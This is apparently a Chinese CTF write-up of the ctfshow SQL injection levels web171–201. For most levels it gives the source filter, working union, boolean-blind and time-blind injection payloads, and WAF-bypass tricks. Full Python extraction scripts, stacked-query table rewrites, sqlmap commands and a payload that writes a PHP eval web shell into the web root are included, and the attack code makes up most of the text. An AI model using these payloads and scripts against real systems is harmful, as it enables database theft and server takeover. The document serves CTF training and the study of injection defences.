






无过滤注入（对输出内容进行过滤）
web171
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
flag是存在于username为flag的用户的数据中，我们只需要通过
1' or 1=1 --+
即可输出所有用户数据
web172
相比上一题，这题增加了过滤
//检查结果是否有flag
if($row->username!=='flag'){
$ret['msg']='查询成功';
}
方法一: 联合查询
因为联合查询只会显示password
api/?id=1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23
/api/?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23
/api/?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user'),database()%23
//看到有3列 id,username,password
/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user),database()%23
//查询password发现没有flag
//查另一个表 ctfshow_user2
/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23
//看到flag
方法二: 将用户名字段进行编码，绕过检测
-1' union select to_base64(username),password from ctfshow_user2 --+
方法三: 只查询密码
-1' union select id,password from ctfshow_user2 where username='flag
web173
过滤要求查询结果中不能出现flag字段
//检查结果是否有flag
if(!preg_match('/flag/i', json_encode($ret))){
$ret['msg']='查询成功';
}
方法一：联合查询
和上题解法一样，只是这题flag在ctfshow_user3
方法二：
只查询password
-1' union select id,id,password from ctfshow_user3 where username='flag
方法三: 将用户名字段进行编码，绕过检测
-1' union select to_base64(username),password from ctfshow_user3 --+
web174
输出时增加了过滤数字
//检查结果是否有flag和数字
if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
$ret['msg']='查询成功';
}
由于flag中含有数字，哪怕像之前的通过to_base64等编码后，仍然不可避免数字的出现
所以这题我们要用到布尔盲注
放个脚本
1# @Author:Y4tacker
2import requests
3
4url = "http://e076200d-5e74-4121-b2fc-04153243f7a3.chall.ctf.show/api/v4.php?id=1' and "
5
6result = ''
7i = 0
8
9while True:
10 i = i + 1
11 head = 32
12 tail = 127
13
14 while head < tail:
15 mid = (head + tail) >> 1
16 payload = f'1=if(ascii(substr((select password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0) -- -'
17 r = requests.get(url + payload)
18 if "admin" in r.text:
19 head = mid + 1
20 else:
21 tail = mid
22
23 if head != 32:
24 result += chr(head)
25 else:
26 break
27 print(result)
又或者通过replace方法将数字替换成其他的合法字符
1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23
拿到flag后替换回去就行
1import base64
2
3flag64 = "ctfshow{GHIeaIeG-AGaG-DAab-HHae-eEaFcHFIEbef}"
4
5flag = flag64.replace("A", "1").replace("B", "2").replace("C", "3").replace("D", "4").replace("E", "5").replace("F", "6").replace("G", "7").replace("H", "8").replace("I", "9").replace("J", "0")
6
7print(flag)
又或者
1' union select 1,"<?=eval($_POST[1]);?>" into outfile "/var/www/html/shell.php" --+
web175
//检查结果是否有flag
if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
$ret['msg']='查询成功';
}
检查变量 $ret 经过 json_encode 编码后的结果中是否只包含 ASCII 字符（即字符编码范围在 \x00 到 \x7f 之间）。如果不满足这个条件，就将 $ret 数组中的 msg 键的值设置为 '查询成功'。
也就是没有任何回显
方法一：时间盲注
大佬的脚本，用的二分法
1# @Author:Y4tacker
2import requests
3
4url = "http://7eac161c-e06e-4d48-baa5-f11edaee7d38.chall.ctf.show/api/v5.php?id=1' and "
5
6result = ''
7i = 0
8
9while True:
10 i = i + 1
11 head = 32
12 tail = 127
13
14 while head < tail:
15 mid = (head + tail) >> 1
16 payload = f'1=if(ascii(substr((select password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(2),0) -- -'
17 try:
18 r = requests.get(url + payload, timeout=0.5)
19 tail = mid
20 except Exception as e:
21 head = mid + 1
22
23 if head != 32:
24 result += chr(head)
25 else:
26 break
27 print(result)
方法二:利用读写文件写入网站根目录 http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/api/v5.php?id=1' union select 1,password from ctfshow_user5 into outfile ‘/var/www/html/1.txt’–+&page=1&limit=10 之后访问http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/1.txt
过滤注入（对传入参数进行过滤）
web176
//对传入的参数进行了过滤
function waf($str){
//代码过于简单，不宜展示
}
方法一：万能钥匙
1' or 1=1--+
能找到flag
方法二:大小写绕过
1' uNion sElect 1,2,password from ctfshow_user --+
web177
黑名单：空格、+
空格替代：%20（普通空格）、%09（水平制表符）、%0a（换行符）、%0b（回车符）、%0c（新一页）、%0d（垂直制表符）、%a0、()、``、\**\
可以用\**\绕过
1'/**/union/**/select/**/password,1,1/**/from/**/ctfshow_user/**/where/**/username/**/='flag'%23
方法二:万能钥匙
web178
黑名单增加：%20、*
1'%09union%09select%09password,1,1%09from%09ctfshow_user%09where%09username%09='flag'%23
方法二:万能钥匙
web179
黑名单增加：%09、%0a、%0b、%0d
这题把%09也过滤了，这题空格可以用%0c绕过
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
web180
黑名单增加：#
可以用–%0c代替#(%23)
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user--%0c
或者直接万能密码
id=-1'or(id=26)and'1'='1
web181
1//对传入的参数进行了过滤
2 function waf($str){
3 return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
4 }
/和/i：正则表达式的定界符，/表示正则表达式的开始和结束，i是修饰符，表示不区分大小写进行匹配。
|\*：匹配空格字符（）和星号（*），这两个字符在 SQL 注入中可能会被用于构造恶意语句。
\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0：分别匹配不同的 ASCII 控制字符和特殊空白字符，例如：
\x09：水平制表符（Tab）\x0a：换行符（LF）\x0b：垂直制表符\x0c：换页符\x00：空字符\x0d：回车符（CR）\xa0：不间断空格
\x23|\#：匹配井号（#），在 SQL 中，#通常用于注释，攻击者可能会利用注释来绕过 SQL 语句的检查。
file|into|select：匹配关键字file、into和select，这些关键字在 SQL 注入和文件包含攻击中经常被使用。
方法一 用like来匹配关键词flag
-1'%0cor%0cusername%0clike%0c'flag
方法二
-1'or(id=26)and'1
看到一篇大佬的文章，感觉明了不少
ctfshow Web入门SQL注入 web171-197 Writeup - X1r0z Blog
web182
1//对传入的参数进行了过滤
2 function waf($str){
3 return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
4 }
黑名单增加：flag
这题可以用到like进行模糊查询
payload:
-1'or%0cusername%0clike%0c'fl%
或者继续使用上一题的方法二
web183
查询语句
//拼接sql语句查找指定ID用户
$sql = "select count(pass) from ".$_POST['tableName'].";";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
}
查询结果
//返回用户表的记录总数
$user_count = 0;
题目大概的意思就是我们传入表名进行查询，如果表名正确，就会返回用户表记录总数1，如果表名错误则返回0，且每次最多只会返回1，根据这个我们可以尝试布尔盲注，如果我们知道表名(ctfshow_user)和列名(pass)，我们就能通过布尔盲注拿到flag
Y4tacker大佬的脚本
import requests
url = 'http://ee0ad3ab-e8f0-4183-97a8-aa3c5bcbe4f4.challenge.ctf.show/select-waf.php'
str = r"{abcdefghijklmnopqrstuvwsyz-0123456789}"
flag = ""
index = 0
while True:
for i in str:
data = {
'tableName': f"(ctfshow_user)where(substr(pass,{index},1))regexp('{i}')"
}
r = requests.post(url, data=data)
if r.text.find("$user_count = 1;") > 0:
flag += i
print(flag)
break
index += 1
不是为什么我flag的马甲是这样的
web184
1//对传入的参数进行了过滤
2 function waf($str){
3 return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
4 }
因为这题where被ban了，我们可以利用right join进行代替
依旧是布尔盲注
POC
import requests
url = 'http://effed757-6639-46a9-9103-22fedb04bb41.challenge.ctf.show/select-waf.php'
charset = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}'
flag = ''
for i in range(1, 50): # 假设 flag 最长 50 个字符
for j in charset:
payload = f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1) regexp char({ord(j)}))"
data = {
'tableName': payload
}
response = requests.post(url, data=data)
if "some_success_condition" in response.text:
flag += j
print(flag)
break
web185
//对传入的参数进行了过滤
function waf($str){
return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
}
这题把数字ban掉了
这其实就导致了我们在构造payload的时候没办法直接使用数字
但是我们可以用true来代替构造出数字
我们知道true = 1
那2就可以用true+true来表示，以此类推
1import requests
2url = "http://33578c7b-f34a-422b-87a5-a8accac68645.challenge.ctf.show/select-waf.php"
3flag = ''
4
5
6def createNum(n):
7 num = 'true'
8 if n == 1:
9 return 'true'
10 else:
11 for i in range(n - 1):
12 num += "+true"
13 return num
14
15
16for i in range(45):
17 if i <= 5:
18 continue
19 for j in range(127):
20 data = {
21 "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
22 }
23 r = requests.post(url, data=data)
24 if r.text.find("$user_count = 43;") > 0:
25 if chr(j) != ".":
26 flag += chr(j)
27
28 print("[*]result is:"+flag.lower())
29 if chr(j) == "}":
30 exit(0)
31 break
web186
//对传入的参数进行了过滤
function waf($str){
return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
}
解法和上题一样
web187
返回逻辑
$username = $_POST['username'];
$password = md5($_POST['password'],true);
//只有admin可以获得flag
if($username!='admin'){
$ret['msg']='用户名不存在';
die(json_encode($ret));
}
password=md5($pass,true)绕过、弱类型、MD5强碰撞_select * from ‘admin’ where password=md5($pass,tru-CSDN博客
payload:
admin/ffifdyop
抓个包
web188
查询语句
//拼接sql语句查找指定ID用户
$sql = "select pass from ctfshow_user where username = {$username}";
返回逻辑
//用户名检测
if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==intval($password)){
$ret['msg']='登陆成功';
array_push($ret['data'], array('flag'=>$flag));
}

所以payload为
0/0
或者
1||1/0
web189
//拼接sql语句查找指定ID用户
$sql = "select pass from ctfshow_user where username = {$username}";
//用户名检测
if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==$password){
$ret['msg']='登陆成功';
}
这题在输入0/0的时候会显示密码错误，而在输入1/0的时候则会显示查询错误
可以通过这个来进行布尔盲注，即正确时系统返回查询错误，错误时系统返回密码错误
1# -*- coding: utf-8 -*-
2# @Author : Yn8rt
3# @Time : 2021/7/30 15:48
4# @Function:
5import requests
6import sys
7import json
8
9url = 'http://98e1809d-5de9-4f68-b45f-d03388b1dae8.challenge.ctf.show/api/'
10flag = 'ctfshow{'
11letter = '0123456789abcdefghijklmnopqrstuvwxyz-{}'
12
13for i in range(100):
14 for j in letter:
15 payload = {
16 "username": "if(load_file('/var/www/html/api/index.php')regexp('{}'),0,1)".format(flag + j),
17 "password": "0"
18
19 }
20 r = requests.post(url=url,data=payload)
21 #print(r)
22 if "密码错误" == r.json()['msg']:
23 flag += j
24 print(flag)
25 break
26 if '}' in flag:
27 sys.exit()
web190
查询语句
//拼接sql语句查找指定ID用户
$sql = "select pass from ctfshow_user where username = '{$username}'";
返回逻辑
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==$password){
$ret['msg']='登陆成功';
}
//TODO:感觉少了个啥，奇怪

所以这题依旧可以进行布尔盲注
1# @Author:Y4tacker
2import requests
3
4url = "http://eb2e57dd-6c44-4140-9052-f549f647caa9.challenge.ctf.show/api/"
5
6result = ""
7i = 0
8
9while True:
10 i = i + 1
11 head = 32
12 tail = 127
13
14 while head < tail:
15 mid = (head + tail) >> 1
16 # 查数据库
17 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查字段
19 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
20 # 查flag
21 payload = "select group_concat(f1ag) from ctfshow_fl0g"
22 data = {
23 'username': f"admin' and if(ascii(substr(({payload}),{i},1))>{mid},1,2)='1",
24 'password': '1'
25 }
26
27 r = requests.post(url,data=data)
28 if "密码错误" == r.json()['msg']:
29 head = mid + 1
30 else:
31 tail = mid
32
33 if head != 32:
34 result += chr(head)
35 else:
36 break
37 print(result)
web191
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = '{$username}'";
5
6返回逻辑
7
8 //密码检测
9 if(!is_numeric($password)){
10 $ret['msg']='密码只能为数字';
11 die(json_encode($ret));
12 }
13
14 //密码判断
15 if($row['pass']==$password){
16 $ret['msg']='登陆成功';
17 }
18
19 //TODO:感觉少了个啥，奇怪
20 if(preg_match('/file|into|ascii/i', $username)){
21 $ret['msg']='用户名非法';
22 die(json_encode($ret));
23 }
这题和上题一样，只是加了点ban掉了ascii
我们用ord代替ascii即可
1# @Author:Y4tacker
2import requests
3
4url = "http://92a52ee7-65ff-4fff-b3d9-ec90f74fd2f5.challenge.ctf.show/api/"
5
6result = ""
7i = 0
8
9while True:
10 i = i + 1
11 head = 32
12 tail = 127
13
14 while head < tail:
15 mid = (head + tail) >> 1
16 # 查数据库
17 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
18 # 查字段
19 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
20 # 查flag
21 payload = "select group_concat(f1ag) from ctfshow_fl0g"
22 data = {
23 'username': f"admin' and if(ord(substr(({payload}),{i},1))>{mid},1,2)='1",
24 'password': '1'
25 }
26
27 r = requests.post(url,data=data)
28 if "密码错误" == r.json()['msg']:
29 head = mid + 1
30 else:
31 tail = mid
32
33 if head != 32:
34 result += chr(head)
35 else:
36 break
37 print(result)
web192
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = '{$username}'";
5
6返回逻辑
7
8 //密码检测
9 if(!is_numeric($password)){
10 $ret['msg']='密码只能为数字';
11 die(json_encode($ret));
12 }
13
14 //密码判断
15 if($row['pass']==$password){
16 $ret['msg']='登陆成功';
17 }
18
19 //TODO:感觉少了个啥，奇怪
20 if(preg_match('/file|into|ascii|ord|hex/i', $username)){
21 $ret['msg']='用户名非法';
22 die(json_encode($ret));
23 }
不给我转是吧，那我不转了
1import requests
2import string
3
4url = "http://20b20943-6b5a-464b-b13e-99ab8e2644b7.challenge.ctf.show/api/"
5flagstr=" _{}-" + string.ascii_lowercase + string.digits
6flag = ''
7for i in range(1,45):
8 for j in flagstr:
9 payload = f"admin' and if(substr((select group_concat(f1ag) from ctfshow_fl0g),{i},1)regexp('{j}'),1,2)='1"
10 data = {
11 'username': payload,
12 'password': '1'
13 }
14 r = requests.post(url, data=data)
15 if "密码错误" == r.json()['msg']:
16 flag += j
17 print(flag)
18 if "}" in flag:
19 exit(0)
20 break
其实也差不多
二分法脚本
1
2# 用了二分法 dejavu~~~
3import requests
4
5url = "http://c9b03201-bcdf-42ce-ac5b-c546603c1848.challenge.ctf.show:8080/api/"
6# 表名 CtFsHOw{FL0G,CtFsHOw{usEr
7# payload = "0' or if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)>'{}',1,0) -- "
8# 列名 ID,F1AG,ID,usErNAME,pAss
9# payload = "0' or if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1)>'{}',1,0) -- "
10# flag
11payload = "0' or if(substr((select f1ag from ctfshow_fl0g),{},1)>'{}',1,0) -- "
12true_flag = "\\u5bc6\\u7801\\u9519\\u8bef"
13result = ""
14index = 1
15while True:
16 start = 32
17 end = 127
18 while not (abs(start-end) == 1 or start == end):
19 p = (start + end) // 2
20 data = {
21 "username": payload.format(index, chr(p)),
22 "password": 0
23 }
24 response = None
25 while True:
26 try:
27 response = requests.post(url, data=data)
28 except:
29 continue
30 break
31 if true_flag in response.text:
32 start = p
33 else:
34 end = p
35 if end < start:
36 end = start
37 result += chr(end)
38 print(f"[*] result: {result}")
39 index += 1
web193
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = '{$username}'";
5
6返回逻辑
7
8 //密码检测
9 if(!is_numeric($password)){
10 $ret['msg']='密码只能为数字';
11 die(json_encode($ret));
12 }
13
14 //密码判断
15 if($row['pass']==$password){
16 $ret['msg']='登陆成功';
17 }
18
19 //TODO:感觉少了个啥，奇怪
20 if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
21 $ret['msg']='用户名非法';
22 die(json_encode($ret));
23 }
新增waf：substr
没办法进行截断，但其实问题不大
1import requests
2import sys
3url = 'http://a4ac8172-cadd-42ca-a986-771b4ab0400f.challenge.ctf.show/api/'
4result = ''
5letter = '0123456789abcdefghijklmnopqrstuvwxyz-_,{}'
6
7for i in range(100):
8 for j in letter:
9 # 查表
10 # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
11 # 查字段
12 # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
13 # 查flag
14 payload = "select group_concat(f1ag) from ctfshow_flxg"
15
16 data={
17 'username':"admin' and if(({}) like '{}%',1,2) ='1".format(payload,result+j),
18 'password':1
19 }
20 res = requests.post(url=url,data=data)
21 if "密码错误" == res.json()['msg']:
22 result += j
23 print(result)
24 break
25 if "}" in result:
26 exit(0)
我们可以用like来达到差不多的效果
这题也可以用char,left,right,substring之类的方法
web194
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = '{$username}'";
5
6返回逻辑
7
8 //密码检测
9 if(!is_numeric($password)){
10 $ret['msg']='密码只能为数字';
11 die(json_encode($ret));
12 }
13
14 //密码判断
15 if($row['pass']==$password){
16 $ret['msg']='登陆成功';
17 }
18
19 //TODO:感觉少了个啥，奇怪
20 if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
21 $ret['msg']='用户名非法';
22 die(json_encode($ret));
23 }
新增waf：char|left|right|substring
上题的方法依旧适用
web195
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = {$username};";
5
6返回逻辑
7
8 //密码检测
9 if(!is_numeric($password)){
10 $ret['msg']='密码只能为数字';
11 die(json_encode($ret));
12 }
13
14 //密码判断
15 if($row['pass']==$password){
16 $ret['msg']='登陆成功';
17 }
18
19 //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
20 if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
21 $ret['msg']='用户名非法';
22 die(json_encode($ret));
23 }
24
25 if($row[0]==$password){
26 $ret['msg']="登陆成功 flag is $flag";
27 }
根据提示堆叠注入
其实就是在;后面再执行任意的sql命令
这里直接改密码
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";
# @Author:Y4tacker
admin <=> 0x61646d696e
111<=>0x313131

web196
查询语句
//拼接sql语句查找指定ID用户
$sql = "select pass from ctfshow_user where username = {$username};";
返回逻辑
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
if(strlen($username)>16){
$ret['msg']='用户名不能超过16个字符';
die(json_encode($ret));
}
if($row[0]==$password){
$ret['msg']="登陆成功 flag is $flag";
}
这题应该是bug了，select没被waf

在 PHP 里，当使用数据库查询语句从数据库中获取结果集时，通常会逐行遍历结果集。每一行数据可以用一个数组来表示，$row[0] 指的是这一行数组中的第一个元素。
payload:
0;select(2)
2
web197
1查询语句
2
3 //拼接sql语句查找指定ID用户
4 $sql = "select pass from ctfshow_user where username = {$username};";
5
6返回逻辑
7
8
9 //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
10 if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
11 $ret['msg']='用户名非法';
12 die(json_encode($ret));
13 }
14
15 if($row[0]==$password){
16 $ret['msg']="登陆成功 flag is $flag";
17 }
18
这把不能用select，那我们只需要想办法给$row[0]一个确定的值即可
比如
username: 1;show tables
password: ctfshow_user
其他的一些骚操作
重写ctfshow_user表

把密码和id列互换之后爆密码（实际上在爆id）
1# @Author:Y4tacker
2import requests
3
4url = "http://b126bc7c-2b32-461d-9520-30d5baf7a152.chall.ctf.show/api/"
5for i in range(100):
6 if i == 0:
7 data = {
8 'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
9 'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
10 'varchar(255);',
11 'password': f'{i}'
12 }
13 r = requests.post(url, data=data)
14 data = {
15 'username': '0x61646d696e',
16 'password': f'{i}'
17 }
18 r = requests.post(url, data=data)
19 if "登陆成功" in r.json()['msg']:
20 print(r.json()['msg'])
21 break
web198
同web197
web199
通解一把梭
web200
通解一把梭
web190-web200通解
username=0;show tables;
pass=ctfshow_user
sqlmap的使用
web201
sqlmap最新版下载
使用--user-agent 指定agent
使用--referer 绕过referer检查
检测注入类型
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/sqlmap.php/api/?id= --user-agent sqlmap --referer ctf.show
爆数据库
python sqlmap.py -u http://6583b09f-115c-4262-8c47-df0a033b1926.challenge.ctf.show/api/?id= --user-agent sqlmap --referer ctf.show --dbs
爆表
